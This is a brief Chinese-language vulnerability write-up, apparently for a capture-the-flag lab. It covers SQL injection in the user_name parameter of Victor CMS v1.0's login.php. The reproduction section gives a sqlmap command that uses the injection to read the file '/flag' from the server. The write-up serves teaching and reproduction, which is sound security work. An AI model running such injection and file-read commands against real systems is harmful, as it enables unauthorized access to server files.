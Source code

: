 ## 1. 漏洞介绍
Victor CMS是尼日利亚Victor Alagwu个人开发者的一套开源的内容管理系统。<br />Victor CMS v1.0 版本存在安全漏洞，该漏洞源于/includes/login.[php](https://it.cha138.com/php/)的 user_name 参数。攻击者可以通过user_name参数在/CMSsite/include/login.php中注入查询。
## 2. 影响版本
Victor CMS v1.0
## 3. 漏洞复现
启动环境后直接跑 sqlmap 即可【post 请求】
```python
python sqlmap.py -r xxx.txt --file-read "/flag" --dbms mysql --batch
//成功有结果后
cat /root/.local/share/sqlmap/output/xxx.ichunqiu.com/files/_flag
```

- file-read: SQLmap --file-read从服务器中读取文件
- 当用户权限足够大并且具有特定的函数，即可读取服务器中的文件，可以是文本，也可以是二进制文件
